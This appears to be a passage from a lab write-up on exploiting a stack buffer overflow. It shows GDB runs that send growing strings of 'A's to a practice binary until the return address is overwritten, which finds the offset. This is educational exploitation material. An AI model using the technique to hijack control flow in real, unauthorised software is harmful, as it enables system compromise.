this technique uses Python, GDB and a clear understanding of all elements of the Stack.

### Find the offset

:::info

The offset is the amount of bytes between filling up the buffer and the start of the return address.

offset = `buffer[140] + alignment bytes + rbp[8]`

:::

use Python and GDB to find the offset i.e. number of bytes it takes to overwrite the return address.

```sh
(gdb) run $(python -c "print('A' * 150)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 150)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 151)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 151)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGBUS, Bus error.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 152)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 152)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0x0000000000400500 in __do_global_dtors_aux ()

(gdb) run $(python -c "print('A' * 155)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 155)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```
